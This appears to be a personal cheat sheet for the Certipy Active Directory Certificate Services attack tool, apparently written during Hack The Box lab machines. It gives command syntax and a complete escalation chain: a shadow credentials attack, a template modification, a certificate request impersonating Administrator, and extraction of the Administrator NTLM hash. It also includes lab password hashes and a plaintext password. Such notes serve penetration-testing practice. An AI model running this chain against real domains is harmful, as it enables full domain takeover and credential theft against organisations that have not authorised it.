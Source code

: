 # certipy

## Overview

## Usage

### Auth

Return a hash for the account of the private key

Example: certipy-ad auth -pfx ./administrator.pfx -dc-ip 10.129.251.172

### Find

The find command is useful for enumerating AD CS certificate templates, certificate authorities and other configurations. The find operation searches for vulnerabilities such as missing or misconfigured certificates, insecure settings, or issues with Kerberos encryption types.

    -scheme <scheme>: This specifies which scheme should be used to communicate with the target Domain Controller.
    -k: The -k flag indicates that Kerberos authentication should be used for the request. Certipy will attempt to authenticate with the Kerberos tickets that are either provided or found in the Kerberos ticket cache
    -debug: The -debug flag enables debugging output.
    -target <target_name>.<domain_name>: DNS name of the target
    -dc <ip>: Domain Controller ip.
    -vulnerable: This flag tells Certipy to look for vulnerabilities related to Kerberos and Active Directory certificate configurations.
    -stdout: The -stdout flag indicates that Certipy should print its results to standard output, rather than saving them to a file.

```shell
KRB5CCNAME=$PWD/<victim_username_with_TGT>.ccache certipy-ad find -scheme <scheme> -k -debug -target <target_dns_name> -dc-ip <domain_controller_ip> -vulnerable -stdout
```

```shell
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.129.251.172 -vulnerable -stdout
```


Find vulnerabilities:

```shell
certipy-ad find -vulnerable -u ca_svc@fluffy.htb -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.193.226 -stdout
```

Find templates:

```shell
certipy find -u ca_svc@fluffy.htb -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.179.157 -stdout
```


### Req

Example: certipy-ad req -u ca_svc -hashes :{ca_svc_hash} -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip {ip} -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns {ip} -dns {ip}

Might need to be run multiple times to work

### Shadow Credentials

```shell
certipy-ad shadow auto -u <username>@<domain_name> -p '<password>' -dc-ip <domain_controller_ip> -ns <dns_server_ip> -target <domain_controller_name>.<domain_name> -account <username_victim>
```

Example : 
```shell 
certipy-ad shadow auto -u ryan@sequel.htb -p '<password>' -dc-ip 10.129.251.172 -ns 10.129.251.172 -target dc01.sequel.htb -account ca_svc
```
```shell
faketime "$(ntpdate -q fluffy.htb | awk '{print $1" "$2}')" certipy shadow auto -u 'p.agila@fluffy.htb' -p 'prometheusx-303' -dc-ip 10.129.193.226 -account 'winrm_svc'
```

### Template

This specifies the Kerberos template to use when requesting a Kerberos ticket. This template is used when performing actions like generating tickets or performing Kerberos-based attacks (like Pass-the-Ticket (PTT) or Golden Ticket).

Example: 
```shell 
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.129.251.172
```


## Examples

### Shadow Credentials

Do a shadow crendentials attack to get a TGT for the account ca_svc

```shell
certipy-ad shadow auto -u ryan@sequel.htb -p '<password>' -dc-ip 10.129.251.172 -ns 10.129.251.172 -target dc01.sequel.htb -account ca_svc
```

With the TGT of ca_svc specify a template and get a private key for the Administrator account:

```shell
    KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.129.251.172
    certipy-ad req -u ca_svc -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip 10.129.251.172 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.129.251.172 -dns 10.129.251.172
```

Finally authenticate with the private key and get the NTLM hash for the Administrator account:

```shell
    certipy-ad auth -pfx ./administrator_10.pfx -dc-ip 10.129.251.172
```